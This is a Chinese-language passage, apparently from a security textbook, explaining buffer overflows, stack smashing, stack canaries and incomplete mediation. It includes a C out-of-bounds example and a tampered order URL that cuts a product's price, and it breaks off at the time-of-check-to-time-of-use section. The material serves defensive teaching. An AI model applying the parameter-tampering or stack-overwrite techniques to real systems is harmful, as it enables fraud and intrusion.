为帮助操作系统实现安全，某些硬件识别多种指令模式：所谓的特权指令，仅当处理器运行在保护模式下时才能执行。试图执行不对应任何有效指令的内容，或在非适当模式下执行特权指令，将导致 `program fault`（程序错误/故障）。当硬件产生 `program fault` 时，它会停止当前执行线程并将控制权转移给将采取恢复措施的代码，例如终止当前进程并将控制权返回给监督程序。

#### 代码与数据

在解释缓冲区溢出的真实影响之前，我们需要澄清一点：代码、数据、指令、操作系统、复杂数据结构、用户程序、字符串、下载的工具例程、十六进制数据、十进制数据、字符串、代码库、照片，以及内存中的其他所有内容，归根结底只是 0 和 1 的字符串；可将它们全部视为字节，每个字节包含一个数字。计算机不关心这些字节是如何产生的，也不关心它们来自何处。每条计算机指令决定了数据值如何被解释：加法指令意味着数据项被解释为数字，移动指令适用于任意形式的比特串，跳转指令假定目标是一条指令。但在机器级别，没有任何机制阻止跳转指令转入数据字段，或加法命令操作指令，尽管结果可能令人不快。代码和数据是以特定方式解释的比特串。

***

**在内存中，代码与数据无法区分。代码的来源（可信来源或攻击者）也是不可见的。**

***

通常情况下，你不会尝试执行数据值或对指令执行算术运算。但如果 `0x1C` 是跳转指令的操作码，且跳转指令的形式为 `1C *displ*`，意为执行位于当前指令后 `*displ*` 字节处的指令，则字符串 `0x1C0A` 将被解释为向前跳转 10 字节。然而，正如图 3-2 所示，该相同比特模式也代表双字节十进制整数 7178。因此，在一系列指令中存储数字 7178，等同于编程了一个跳转。大多数高级语言程序员不关心指令在内存中的表示，但好奇的研究者可以轻易找到这种对应关系。制造商发布参考手册精确规定其芯片的行为，编译器、汇编器和反汇编器等工具程序帮助感兴趣的程序员开发和解读机器指令。


**图 3-2** 比特模式可代表数据或指令

通常我们不将代码视为数据，反之亦然；然而攻击者有时会这样做，尤其是在内存溢出攻击中。攻击者的伎俩是导致数据溢出至可执行代码区，并精心选择数据值，使其被解释为执行攻击者目标的有效指令。对某些攻击者而言，这是一个两步走的目标：首先导致溢出，然后尝试随之而来的动作，以达成期望的、可预测的结果，正如大卫所做的那样。

#### 溢出造成的危害

假设一名恶意人员理解缓冲区溢出能造成的破坏；即我们面对的不仅仅是一个普通的、笨拙的程序员。恶意程序员会阴险地思考：我能插入什么数据值来制造麻烦或破坏，又能强迫系统执行什么预设的指令代码？答案有很多，其中一些比另一些更具恶意。此处，我们介绍两种常用的缓冲区溢出攻击。（更多细节参见 [ALE96]。）

首先，攻击者可能替换系统空间中的代码。正如图 3-3 所示，内存组织并不像图 3-1 中展示的那样简单。操作系统的代码和数据与用户的代码和数据共存。系统空间与用户空间之间的粗线仅表示这两个区域的逻辑分离；在实践中，这种区别并非如此牢固。


**图 3-3** 包含用户区和系统区的内存组织

请记住，每个程序都是由操作系统调用的，而操作系统可能以比普通程序更高的特权运行。因此，如果攻击者能通过伪装成操作系统来获取控制权，攻击者就能以强大的角色执行命令。因此，通过在从自己的过程中返回后替换几条指令，攻击者便从操作系统手中夺回控制权，并可能获得提升的特权。这种技术称为 `privilege escalation`（权限提升）。如果缓冲区溢出进入系统代码空间，攻击者只需插入对应于指令机器码的溢出数据即可。

#### 栈与堆攻击

在另一种攻击中，入侵者可能会闯入称为**栈**和**堆**的区域。子过程调用由栈处理，栈是一种数据结构，其中最近插入的项是下一个被移除的项（后进先出）。这种结构效果很好，因为过程调用可以嵌套，每次返回都会导致控制权转移回紧接的前一个例程的执行点。每次调用过程时，其参数、返回地址（紧随其调用之后的地址）和其他局部值都会被压入栈中。旧栈指针也会被压入栈中，栈指针寄存器则会被重新加载这些新值的地址。然后控制权转移给子过程。

随着子过程的执行，它通过使用栈指针指向的地址来获取参数。通常，栈指针是处理器中的一个寄存器。因此，通过导致栈溢出，攻击者可以更改旧栈指针（更改调用过程的上下文）或返回地址（导致当子过程返回时控制权转移到攻击者预期的位置）。更改上下文或返回地址允许攻击者将执行重定向到攻击者编写的代码。

在这两种情况下，攻击者都必须稍微尝试一下，以确定溢出在哪里以及如何控制它。但要做的工作相对较少——对于称职的分析师来说，可能只需要一两天。这些缓冲区溢出在著名的 l0pht 计算机安全小组的 Pieter Zatko（网名 Mudge）的论文中得到了仔细解释 [[MUD95]](#bib01.html#bib_418)。Pincus 和 Baker [[PIN04]](#bib01.html#bib_496) 在十年后回顾了缓冲区溢出，发现远非攻击的次要方面，缓冲区溢出一直是一个重要的攻击载体，并衍生出了其他几种新的攻击类型。这种模式延续至今。

#### 另一种缓冲区溢出风格

当参数值被传递给一个例程时，特别是当参数被传递给互联网上的 Web 服务器时，会发生另一种风格的缓冲区溢出。参数在 URL 行中传递，语法类似于：

```
http://www.somesite.com/subpage/userinput.asp?parm1=(808)555-1212
```

在这个例子中，应用脚本 `userinput` 接收一个参数，`parm1`，其值为 `(808)555-1212`（可能是一个美国电话号码）。调用者机器上的 Web 浏览器将接受用户的值，用户可能完成了表单上的字段。浏览器对这些值进行编码并将它们传回服务器的网站。

攻击者可能会质疑服务器会如何处理一个非常长的电话号码，比如说，一个有 500 位或 1000 位数字的号码。这正是我们在侧边栏 3-2 中描述的示例中 David 所问的问题。将一个非常长的字符串传递给 Web 服务器是经典缓冲区溢出的一个轻微变体，但效果不减。

#### 覆盖内存

现在考虑一下缓冲区溢出。如果你在数组末尾之后写入一个元素，或者将一个 11 字节的字符串存储在一个 10 字节的区域中，那些额外的数据必须去某个地方；通常它会紧接在数据最后分配的空间之后。

缓冲区（或数组或字符串）是一个可以存放数据的空间。缓冲区驻留在内存中。因为内存是有限的，所以缓冲区的容量是有限的。出于这个原因，在许多编程语言中，程序员必须声明缓冲区的最大尺寸，以便编译器可以预留那么多空间。

让我们看一个例子，看看缓冲区溢出是如何发生的。假设一个 C 语言程序包含声明：

```
char sample[10];
```

编译器预留 10 字节来存储这个缓冲区，数组的 10 个元素每个占用 1 字节，表示为 `sample[0]` 到 `sample[9]`。现在我们执行语句：

```
sample[10] = 'B';
```

下标越界（即不在 0 到 9 之间），所以我们有麻烦了。最好的结果（从安全角度来看）是编译器检测到问题并在编译期间标记错误，编译器在这种情况下可以做到这一点。然而，如果语句是：

```
sample[i] = 'B';
```

那么编译器直到执行期间 `i` 被设置为一个合适的值（0 到 9 之间）或一个越界下标（小于 0 或大于 9）时才能识别出问题。如果在执行期间系统产生一条错误消息警告下标异常，那将很有用。不幸的是，在某些语言中，缓冲区大小不必预定义，因此无法检测越界错误。更重要的是，在执行期间将每个下标与其潜在最大值进行对比检查所需的代码需要时间和空间，而资源被用来捕获一个相对不常发生的问题。即使编译器在分析缓冲区声明和使用时很仔细，指针也会导致同样的问题，而对于指针没有合理的方法来定义适当的限制。因此，一些编译器不会生成检查越界的代码。

#### 覆盖内存的含义

让我们更仔细地研究一下覆盖内存的问题。请务必认识到，潜在的溢出仅在某些情况下才会导致严重问题。问题的发生取决于什么与数组 `sample` 相邻。例如，假设数组 `sample` 的十个元素中的每一个都填充了字母 A，而错误的引用使用了字母 B，如下所示：

```
for (i=0; i<=9; i++)
    sample[i] = 'A';
sample[10] = 'B'
```

执行期间所有程序和数据元素都在内存中，与操作系统、其他代码和驻留例程共享空间。因此，在决定“B”去向何处时，必须考虑四种情况，如图 3-4 所示。如果额外的字符溢出到用户的数据空间，它只会覆盖现有的变量值（或者可能被写入一个尚未使用的位置），也许会影响程序的结果，但不会影响其他程序或数据。


**图 3-4** 单字符溢出

在第二种情况下，“B”进入用户的程序区。如果它覆盖了一个已经执行的指令（将不再执行），用户应该不会察觉到任何影响。如果它覆盖了一个尚未执行的指令，机器将尝试执行操作码为 `0x42` 的指令，即字符“B”的内部代码。如果没有操作码为 `0x42` 的指令，系统将因非法指令异常而停止。否则，机器将使用后续字节，就好像它们是指令的其余部分一样，成功或失败取决于内容的含义。同样，只有用户可能会经历影响。

从安全角度来看，最有趣的情况发生在系统拥有溢出数组紧邻之后的空间时。溢出到系统数据或代码区域会产生与用户空间类似的结果：使用错误的值进行计算或尝试执行一个操作。

程序过程使用**局部**数据（严格在一个过程中使用的数据）和**共享**或**公共**或**全局数据**（在两个或多个过程之间共享的数据）。内存组织可能很复杂，但我们如图 3-5 所示简化了布局。在那张图中，局部数据存储在过程代码的相邻位置。因此，正如你所看到的，数据溢出要么严格落在数据空间内，要么溢出到相邻的代码区域。数据最终会落在以下之一之上：

* 你的另一段数据
* 你的一条指令
* 属于另一个程序的数据或代码
* 属于操作系统的数据或代码

我们分别考虑这些情况。


**图 3-5** 不同用户的不同过程的内存

#### 影响您自己的数据

修改您自己的数据，尤其是使用非预期的值，显然会影响您的计算。循环可能会重复过多或过少次数，求和可能会出错，或者日期可能会变得乱码。您可以自行想象这些可能性。错误可能非常明显，以至于您很容易发现有问题，但更微妙的故障可能永远逃过您的注意。

从安全角度来看，很少有系统控制能保护您免受此类错误的影响：您拥有自己的数据空间，您想在那里存储任何东西都是您自己的事。某些（但并非所有）编程语言会为数组等生成检查代码，以确保您仅在分配的空间内存储元素。因此，防御性编程技术（本章后面讨论）建议您始终检查以确保数组元素和字符串在其边界内。正如侧边栏 3-3 所示，有时此类错误会潜伏很长时间。

---

#### 侧边栏 3-3 计算机过多

ARPANET 是当今互联网的前身，于 1969 年开始运行。Stephen Crocker 和 Mary Bernstein [CRO89] 详尽研究了 ARPANET 17 次灾难性故障的根本原因，这些故障导致整个网络或其很大一部分瘫痪。


正如您所料，这些故障中的许多发生在 1970 年代初期，因为网络的使用导致缺陷暴露出来。他们列举的 17 个原因中的最后一个直到 1988 年才出现，距离网络诞生已近 20 年。此次中断是由溢出引起的。

最初的 ARPANET 网络由连接到称为 IMP 的专用通信处理器的主机组成。每个接口信息处理器（IMP）控制一个单独的子网，非常像今天的路由器；IMP 通过专用通信线路连接到其他 IMP。为了可靠性，每个 IMP 到每个其他 IMP 至少有两条不同的路径。IMP 连接会根据网络流量的要求动态添加到表中。

1988 年，一个子网添加了到第 348 个 IMP 的连接。IMP 连接表在 1969 年被硬编码为仅 347 个条目，当时这似乎多得离谱，而在随后的岁月里，人们忘记了该表的大小（如果它曾被公开过的话）。（在 1967 年，347 个 IMP 远超设计师对网络规模的设想。）处理 IMP 表的软件检测到了此溢出，但通过导致 IMP 重启来处理；重启后，IMP 的表被清空，并会在其发现其他可达子网时重新填充。显然，该软件的作者假设这种表溢出将是由其他原因引起的偶发错误，因此清空并重启将清除表中的错误数据。由于故障源于真实情况，1989 年刷新后的 IMP 运行了一段时间，直到其表重新填满，然后再次故障并重启。

花了一些时间才确定此缺陷的来源和补救措施，因为编码与故障之间相隔了二十年；所有与原始设计或实现相关的人员都已转向其他项目。

正如这个例子所示，缓冲区溢出——像其他程序故障一样——可能在一段时间内未被利用和检测到，但它们依然存在。

---

### 影响您自己的指令

同样，您的某条指令失效会影响您自己，系统允许您对自己执行的操作有很大的自由度。如果您存储的字符串不代表有效或允许的指令，您的程序可能会产生故障并停止，将控制权返回给操作系统。然而，系统将尝试执行意外代表有效指令的字符串，其效果取决于实际值。同样，取决于错误的性质，这条错误指令可能没有效果（如果它不在执行路径上，或在已执行的部分中），无效果（如果它碰巧不影响代码或数据，例如将寄存器 1 的内容移动到其自身的指令），或未被注意到或容易被注意到的效果。

破坏您自己的代码或数据令人不快，但至少可以说危害是您自己的过错。当然，除非这不是您的过错。Microsoft Outlook 的一个早期缺陷涉及简单的日期字段：日期需要几个字节来表示 GMT（格林威治标准时间）格式的日、月、年、和时间。在 Outlook 的旧版本中，日期超过 1000 字节的消息超出了消息头的缓冲区空间，并侵入了保留空间。仅仅从邮件服务器下载这样一条消息就会导致您的系统崩溃，并且每次您尝试重启时，Outlook 都会尝试重新加载同一条消息并再次崩溃。在这种情况下，您遭受了仅涉及您自己内存区域的缓冲区溢出造成的危害。

一个程序可能会意外修改另一个过程的代码或数据，而该过程要等到很久以后才会执行，因此这种延迟的影响几乎与来自无关独立用户的攻击一样难以诊断。缓冲区溢出最显著的影响发生在超出的数据影响操作系统的代码或数据时。

修改某个用户或另一个用户的代码和数据是重要的，但这并非主要的计算机安全问题。然而，正如我们在下一节所示，针对操作系统实施的缓冲区溢出可能会产生严重后果。

### 影响操作系统或关键应用程序

对于操作系统代码或数据，会发生相同的基本场景，尽管同样存在重要的差异。探索这些差异也引导我们考虑动机，因此我们从思考本质上是事故的问题转向攻击者的故意恶意行为。

由于计算系统上的程序组合不断变化，因此几乎没有机会影响任何特定的用途。我们现在考虑这样一种情况：攻击者已经接管了一个普通用户，现在想要接管操作系统。这种攻击可以让攻击者植入每次机器重启时都会重新激活的永久代码，例如。或者该攻击可能会暴露数据，例如，操作系统受托保护的密码或加密密钥。那么现在让我们考虑一个（被攻陷的）用户对操作系统可能产生的影响。

用户的代码和数据基本上是随机放置的：只要有合适大小的空闲内存。只有通过跟踪系统内存分配表，您才能了解您的程序和数据在内存中的位置。然而，操作系统的某些部分被放置在特定的固定位置，其他数据位于执行期间可以轻松确定的位置。固定或易于确定的位置将操作系统例程（尤其是最关键的例程）与用户的代码和数据区分开来。

### 栈与堆

第二个区别在于普通用户在没有操作系统特权的情况下运行程序。操作系统调用用户程序就像调用子过程一样，当用户程序退出时，控制权返回给操作系统。如果用户能够篡改操作系统在重获控制权时的行为，用户就可以强制操作系统执行用户想要运行的代码，但具有提升的特权（即操作系统的特权）。能够修改操作系统代码或数据，允许用户（即充当用户的攻击者）获得有效的特权状态。

***

**权限提升，即以更高的系统权限执行攻击代码，是攻击者的额外收获。**

***

调用和返回序列在一个定义良好的协议下运行，该协议使用一种称为**栈**的数据结构。Aleph One (Elias Levy) 描述了如何利用缓冲区溢出重写调用栈 [[ALE96]](#bib01.html#bib_11)。在下一节中，我们将展示程序员如何利用溢出来破坏计算机的操作。

### 栈与堆

**栈** 是过程间数据交换所必需的关键数据结构，正如本章前面所述。可执行代码驻留在内存的一端（我们将其描绘为低端）；其上方是编译时大小已知的常量和数据项；再上方是堆，用于存放执行期间大小可变的数据项；最后是栈。实际上，正如前文 图 3-1 所示，堆和栈位于代码和局部数据之后剩余内存的两端。

当过程 A 调用过程 B 时，A 会将其返回地址（即程序计数器的当前值）、B 退出时应恢复执行的地址，以及调用参数值压入栈中。这种序列如 图 3-6 所示。


**图 3-6** 参数和返回地址

为了帮助解开因程序执行失败而纠缠的栈数据，栈中还包含指向该程序栈区域逻辑底部的指针，即指向该过程将值压入栈之前的位置。这一由参数、返回地址和栈指针组成的数据组称为**栈帧**，如 图 3-7 所示。


**图 3-7** 一个栈帧

当一个过程调用另一个过程时，栈帧被压入栈以允许两个过程交换数据和转移控制；过程 A 调用 B 后的栈示例如 图 3-8 所示。


**图 3-8** 过程调用后的栈

现在考虑一个稍深的例子：假设过程 A 调用 B，B 又调用 C。经过这两次调用后，栈将如 图 3-7 所示，从底部到顶部依次是：返回地址到 A、A 到 B 的参数、C 到 B 的返回地址、B 到 C 的参数。过程 C 返回 B 后，第二个栈帧被弹出，栈再次变为如 图 3-9 所示。


**图 3-9** 嵌套过程调用后的栈

这些图中重要的是程序计数器：如果攻击者能够重写程序计数器，那么在过程返回后程序执行将被重定向，而这一重定向实际上是利用缓冲区溢出时常见的一步。

***

**溢出进入系统空间可以立即重定向执行，或在当前被调用过程退出时重定向执行。**

***

请再次参考 图 3-1，注意栈位于内存顶部并向下增长，而称为堆的其他东西位于底部并向上增长。正如你刚才所见，栈主要用于过程的嵌套调用。**堆** 为动态数据提供空间，即编译程序时大小未知的数据项。

如果在例程的源代码中声明一个包含十个元素的数组，编译器会为这十个元素分配足够的空间，以及常量和单个变量的空间。但假设你正在编写一个通用的排序例程，它适用于任何数据，例如具有任意多行和多列且包含任意类型数据的表。你可能处理一个包含 100 个整数的数组、一个包含 20,000 个电话号码的表，或一个包含 2,000 个带有名称、标题和来源的参考文献条目的结构。即使表本身作为参数传递，因此不需要在程序内部存储它，你仍然需要一些临时空间，例如用于保存比较时两行的值并可能交换它们位置的变量。因为你在编写代码时无法知道一行有多大，现代编程语言允许你推迟声明这些变量的大小直到程序执行。执行期间，编译器插入到程序中的代码确定大小并请求操作系统分配动态内存，操作系统从堆中获取。随着为动态数据结构分配和释放内存，堆会增长和收缩。

正如你在 图 3-1 中所见，栈和堆相向增长，你可以预测它们在某个时刻可能会碰撞。通常，操作系统监控它们的大小并防止这种碰撞，除非操作系统无法知道你会向仅请求了 15 字节的动态堆空间写入 15,000 字节，或向 4 字节参数写入 8 字节，或向三个参数空间写入四个返回参数值。

攻击者希望以有目的的方式重写栈内存，有时称为**栈粉碎**：错误位置的任意数据会导致奇怪的行为，但可预测位置的特定数据会导致计划好的影响。以下是攻击者可以从溢出攻击中产生影响的一些方法：

*   **重写存储在栈中的程序计数器**，以便当该例程退出时，控制转移到修改后的程序计数器地址所指向的地址。

*   **重写低内存中的部分代码**，用攻击者的指令替换之前的程序语句。

*   **重写栈中的程序计数器和数据**，使程序计数器现在指向栈内，导致被重写到栈中的数据被执行。

这些攻击方法的共同特征是攻击者使用溢出数据作为受害者将要执行的代码。因为这段代码在受害者的权限下运行，所以它携带受害者的特权，可以通过重写销毁受害者的数据，或执行受害者能执行的任何操作，例如以受害者名义发送电子邮件。如果溢出发生在系统调用期间，即系统以提升的特权运行时，攻击者的代码也将以这些特权执行；因此，通过调用攻击者的例程之一来将控制权转移给攻击者的攻击，会激活攻击者的代码并使攻击者保持控制权和特权。对许多攻击者而言，目标不仅仅是通过重写内存来销毁数据，还要获得系统控制作为更复杂和赋权攻击的第一步。

### 缓冲区溢出攻击与对策

缓冲区溢出攻击之所以有趣，是因为它们是被称为**数据驱动攻击**的一类问题的首个示例。在**数据驱动攻击**中，危害是由攻击者发送的数据引起的。可以这样理解此类攻击：当有人向缓冲区塞入过多数据时，就会发生缓冲区溢出。大多数人会意外地在数组中多放入一个元素，或在字符串中追加一个额外的字符。插入的数据与正在计算的应用程序相关。然而，在恶意缓冲区溢出中，攻击者（就像无恶意的研究人员 David 一样）会精心挑选数据，以引发特定动作，使程序按计划好的方式失效。通过这种方式，选定的数据驱动了攻击的影响。

---

**数据驱动攻击是由攻击者作为输入馈送给程序的特殊选择的数据所导向的。**

---

恶意利用缓冲区溢出还表现出另一个重要特征：它们是多步骤方法的示例。攻击者不仅会超越分配的空间，还会利用溢出来执行指令，以实现攻击的下一步。溢出不是目标，而是通往更大目的的垫脚石。

缓冲区溢出可能发生在多种数据上，范围涵盖从数组到参数再到单个数据项，虽然其中一些易于预防（例如在存储前检查数组维度），但其他一些则不那么容易。人为错误永远无法完全消除，这意味着溢出条件很可能长期存在。在下一节中，我们将介绍一系列能够检测和阻止各类溢出故障的控制措施。

### 溢出对策

缓冲区溢出的对策似乎很简单：写入前先检查。不幸的是，这并不那么容易，因为某些缓冲区溢出情况不在程序员的直接控制之下，且溢出可能以多种方式发生。

尽管缓冲区溢出很容易编写（无意中产生），但没有单一的对策能够防止它们。然而，鉴于溢出的普遍性和严重性，已经演化出多种保护机制。

防止内存被覆写最明显的对策是保持在边界之内。维护边界是程序员、操作系统、编译器和硬件的共同责任。所有各方都应做到以下几点：

- 写入前检查长度。
- 确认数组下标在限制范围内。
- 仔细检查边界条件代码，以捕捉可能的差一错误。
- 监控输入，仅接受可处理数量的字符。
- 使用仅传输有限数据量的字符串工具函数。
- 检查可能超越其空间的过程。
- 限制程序的权限，这样如果一段代码被恶意接管，违规者不会因妥协而获得提升的系统权限。

#### 编程控制

本章后面我们将概括地研究编程控制。您可能已在其他地方遇到过这些软件工程原则。诸如代码审查（由程序员以外的人员检查代码以发现实现疏忽）和独立测试（由专门的测试人员假设程序可能失效的点）等技术，可以在溢出情况成为问题之前将其捕获。

#### 语言特性

您可能已经注意到涉及缓冲区溢出的攻击有两个特点：攻击者可以直接写入特定内存地址，且语言或编译器允许对某些数据类型进行不当操作。

Anthony (C.A.R.) Hoare [[HOA81]](#bib01.html#bib_268) 评论了语言与设计的关系：

> 程序员总是被复杂性包围；我们无法避免它。我们的应用程序之所以复杂，是因为我们雄心勃勃，想以越来越复杂的方式使用计算机。编程之所以复杂，是因为我们每个编程项目都有大量相互冲突的目标。如果我们的基本工具——我们用来设计和编写程序的语言——也很复杂，那么语言本身就成为问题的一部分，而不是解决方案的一部分。

某些编程语言具有防止溢出的特性。例如，`Java`、`.NET`、`Perl` 和 `Python` 等语言会生成代码在存储数据前检查边界。未检查边界的语言 `C`、`C++` 和汇编语言允许程序在很大程度上不受限制地访问。为了应对这些语言的开放性，编译器编写者开发了扩展和库，生成代码以约束程序行为。

#### 代码分析器

软件开发人员希望有一个简单的工具来查找程序中的安全错误。这种工具被称为**静态代码分析器**，它分析源代码以检测不安全状况。尽管这类工具并不完美，且永远不可能完美，但已存在多款优秀的工具。Kendra Kratkiewicz 和 Richard Lippmann [[KRA05]](#bib01.html#bib_346) 以及 US-CERT Build Security In 网站 (<https://buildsecurityin.us-cert.gov/>) 列出了静态代码分析器清单。

#### 隔离

防范缓冲区溢出的另一个方向是强制隔离：将敏感区域与运行中的代码及其缓冲区和数据空间分离。在一定程度上，硬件可以将代码区与数据区及操作系统分离。

#### 绊脚石

由于覆写栈是一种非常常见且强大的攻击手段，保护栈成为当务之急。

请再次参考图 3-8，注意每次过程调用都会添加一个新的栈帧，成为栈的一个独立切片。如果我们的目标是保护栈，可以通过用保护层包裹每个栈帧来实现。这种层有时被称为**金丝雀**，这是指过去矿工带入地下矿井的金丝雀；金丝雀对缺氧更敏感，因此矿工能在自己受影响前注意到金丝雀的反应，从而有时间安全撤离。

在本节中，我们将展示一些制造商如何开发缓冲垫来防范对栈的良性或恶意破坏。

在常见的缓冲区溢出栈修改中，程序计数器被重置为指向栈中已覆盖栈数据的攻击代码。在图 3-10 中，两个参数 `P1` 和 `P2` 已被程序计数器重定向指向的代码覆盖。（两条指令对于许多栈溢出攻击来说太短，因此真实的缓冲区溢出攻击将涉及栈中更多的数据，但用较小的栈更容易理解该概念。）


**图 3-10** 遭破坏的栈

##### StackGuard

StackGuard 是 Crispin Cowan 等人提出的一种方法 [[COW98]](#bib01.html#bib_133)。攻击者通常无法确切知道保存的程序计数器在栈中的位置，只知道它大致位于某个地址附近。因此，攻击者不仅要重写栈指针，还必须重写其周围的一些字，以确保真正修改了栈指针，但这种不确定性使得 StackGuard 能够检测程序计数器可能发生的变化。每个过程都包含一段序言代码，用于将值压入栈中、设置栈帧的其余部分，并将控制权传递给被调用的返回地址；返回时，一段终止代码会清理栈、重新加载寄存器并返回。在程序计数器正下方，StackGuard 插入了一个金丝雀值以标示修改；如果攻击者重写了程序计数器和该附加值，StackGuard 会增强终止代码，在返回前检测修改后的附加值并发出错误信号。因此，每个金丝雀值都作为一种保护性插入，用于保护程序计数器。这些保护性插入如 图 3-11 所示。只要只有防御者能够生成和验证该值，用篡改检测值包围返回地址的想法就是可行的。


**图 3-11** 用于标示修改的金丝雀值

遗憾的是，正如我们在密码猜测等其他情况下所见，攻防博弈在此上演：攻击者发起进攻，防御者以对策回应，攻击者以增强的攻击回击，如此往复。保护性金丝雀值必须是终止代码能够检测其变化的东西，例如可识别的模式 `0x0f1e2d3c`，这是一个攻击者不太可能自然写入的数字（尽管并非不可能）。一旦攻击者发现某个商业产品专门查找该确切值的填充，我们就知道攻击者可能会在返回地址附近写入什么值。作为再一次反制，为增加多样性，防御者选取遵循某种序列的随机模式，例如 `0x0f1e2d3c`、`0x0f1e2d3d` 等。作为回应，攻击者会随时间监控栈，试图预测序列模式。双方持续对阵修改，直到像网球比赛一样，一方失利。

接下来我们将考虑一种类似于溢出的编程缺陷：未能完全且一致地检查和控制访问。

### 不完全中介

中介意味着检查：即在执行者采取预期行动前，介入以确认其授权的过程。在上一章中，我们讨论了认证过程中的步骤和参与者：描述什么主体可以对什么对象执行什么操作的访问控制三元组。验证主体是否被授权对对象执行操作称为 **中介**。不完全中介是一个困扰我们数十年的安全问题：在允许骑士跨过城堡吊桥前忘记询问“来者何人？”，无异于自找麻烦。同样，攻击者利用不完全中制导致安全问题。

#### 定义

请看下面的 URL。除了 Web 地址外，它还包含两个参数，因此你可以将其视为程序的输入：

[`www.somesite.com/subpage/userinput.asp?parm1=(808)555-1212&parm2=2015Jan17`](http://www.somesite.com/subpage/userinput.asp?parm1=\(808\)555-1212&parm2=2015Jan17)

作为一名试图在问题发生前发现并修复问题的安全专业人员，你可能会检查 URL 的各个部分，以确定其含义以及可能被如何利用。例如，参数 `parm1` 和 `parm2` 看起来分别像电话号码和日期。客户端（用户的）Web 浏览器可能会以指定格式输入这两个值，以便于服务器端处理。


但如果 `parm2` 被提交为 `1800Jan01` 会怎样？或 `1800Feb30`？或 `2048Min32`？或 `1Aardvark2Many`？程序或与其通信的系统中的某些部分很可能会失败。与其他类型的编程错误一样，一种可能是系统灾难性地失败，例程在尝试处理名为“Min”的月份，甚至是超出预期范围的年份（如 1800）时，因数据类型错误而失败。另一种可能是接收程序继续执行，但产生完全错误的结果。（例如，想象一下，如果账单错误的开始日期是 1800 年 1 月 1 日，今天应付的利息金额会是多少。）再者，处理服务器可能有一个默认条件，决定将 `1Aardvark2Many` 视为 1951 年 7 月 21 日。可能性是无穷的。

程序员通常会忽略对错误输入的考虑，质疑为什么有人会输入这样的数字。大家都知道没有 2 月 30 日，对于某些应用来说，19 世纪的日期简直荒谬。没错。但荒谬并不能改变人类行为。如果手指滑了一下，或输入者瞬间分心，或者数字在传输过程中损坏，一个人就可能输入 1800。更糟的是，仅仅因为某事毫无意义、愚蠢或错误，并不能阻止人们去做。如果恶意人员无意中这样做并发现了安全弱点，其他人很可能也会听说。安全恶棍们会大量交换发现。因此，程序员不应假设数据是正确的；相反，程序应在使用前验证所有数据值是否合理。

***

**用户因无知、误解、分心而犯错；用户错误不应导致程序失败。**

***

### 验证所有输入

解决潜在问题的一种方法是尝试预判它们。例如，上述示例中的程序员可能编写了代码，在客户端（即用户的浏览器）侧检查正确性。客户端程序可以搜索并筛除错误。或者，为防止使用无意义数据，程序可以将选择限制为仅有效选项。例如，提供参数的程序可能会通过下拉框或选择列表来征求参数，其中只能选择十二个常规月份。同样，年份可以被测试以确保其值合理（例如，根据应用在 2000 年至 2050 年之间），日期数字必须与其所在月份相符（例如没有 2 月 30 日）。使用这种验证，程序员可能会觉得自己已充分隔绝了粗心或恶意用户可能造成的问题。

### 防范用户的“手指”

然而，应用程序仍然脆弱。通过将结果打包进返回 URL，程序员将这些数据字段留在了用户可访问（并修改）的地方。特别是，用户可以编辑 URL 行，更改任何参数值，并发送修改后的行。在服务器端，服务器无法判断响应行是来自客户端浏览器，还是用户直接编辑 URL 的结果。在这种情况下，我们称数据值未被完全中介：敏感数据（即参数值）处于暴露、不受控的状态。

未经检查的数据值代表严重的潜在漏洞。为了演示该缺陷的安全含义，我们使用一个真实案例；仅更改了供应商名称以保护当事人。Things 公司是一家大型跨国消费品供应商，产品称为 Objects。该公司准备通过网站销售 Objects，使用的是看似标准的电子商务应用。Things 公司管理层决定让部分内部开发人员制作一个网站，让客户直接从网上订购 Objects。

为了配合网站，Things 公司制定了一份完整的 Objects 价格表，其中包含图片、描述，以及用于选择尺寸、形状、颜色、气味和其他任何属性的下拉菜单。例如，网上的客户可以选择购买 20 个部件号为 `555A` 的 Objects。如果此类部件的单价为 `$10`，Web 服务器会正确计算出 20 个部件的价格为 `$200`。然后客户可以决定是通过船运、陆运还是电子方式发送 Objects。如果客户选择船运，客户的 Web 浏览器将完成一个包含如下参数的表单：

```
http://www.things.com/order.asp?custID=101&part=555A&qy=20&price=10&ship=boat&shipcost=5&total=205
```

到目前为止一切顺利；参数传递中的所有内容看起来都是正确的。但这一过程使得参数声明面临恶意篡改的风险。Things 公司不需要将商品价格作为输入参数传回给自己。Things 公司理应知道其 Objects 的价格，而且自几个屏幕前报价以来，价格不太可能发生剧烈变化。

***

**没有任何理由将敏感数据置于不可信用户的控制之下。**

***

恶意攻击者可能决定利用这一特点，改为提供以下 URL，其中价格已从 `$205` 降低至 `$25`：

```
http://www.things.com/order.asp?custID=101&part=555A&qy=20&price=1&ship=boat&shipcost=5&total=25
```

惊喜！它奏效了。攻击者本可以按任意数量、任意价格从 Things 公司订购 Objects。而且是的，这段代码在问题被发现前已在网站上运行了一段时间。

从安全角度来看，关于此缺陷最严重的担忧是它可能长期运行而不被发现。如果全世界突然涌入 Things 公司的网站，以实际价格的一小部分购买 Objects，Things 公司大概会察觉。但 Things 公司规模足够大，绝不会发现每天只有少数客户选择接近（但低于）真实价格的价格，比如打 7 折。电子商务部门的利润会比其他部门略低，但这种差异大概不足以引起任何人的注意；该漏洞可能多年都不会被发现。幸运的是，Things 公司聘请了一位顾问对其代码进行例行审查，顾问迅速发现了该错误。

此情况下的漏洞在于客户（计算机用户）拥有对敏感数据的无中介访问权。运行在用户浏览器上的应用程序维护着订单详情，却允许用户随意更改这些详情。事实上，发送自客户端浏览器到服务器的 URL 中，极少有这些值应该被暴露。客户端应用程序本应只指定部件号和数量，而服务器端的应用程序本应返回单价和总价。

***

**如果数据可以被更改，就假定它们已被更改。**

***

这种 Web 程序设计缺陷很容易想象存在于其他场景中。我们这些对安全感兴趣的人必须自问：当今运行的代码中有多少类似的问题？这些漏洞将如何被发现？如果被发现，会由谁发现？

### 完全中介

因为此处的问题是不完全中介，所以解决方案是完全中介。请回顾第 2 章，我们的标准安全工具之一是访问控制，有时根据参考监视器概念实现。参考监视器的三个属性是：（1）足够小且简单，以确信其正确性；（2）不可绕过；（3）总是被调用。这三个属性结合在一起，为我们提供了可靠的完全中介。

### 检查时刻到使用时刻

我们要描述的第三个编程缺陷也涉及同步问题。为提高效率，现代处理器和操作系统通常会改变指令和过程的执行顺序。特别是，看似相邻的指令可能实际上并非紧接着彼此执行，这可能是由于有意改变了顺序，也可能是由于并发执行中其他进程的影响。

#### 定义

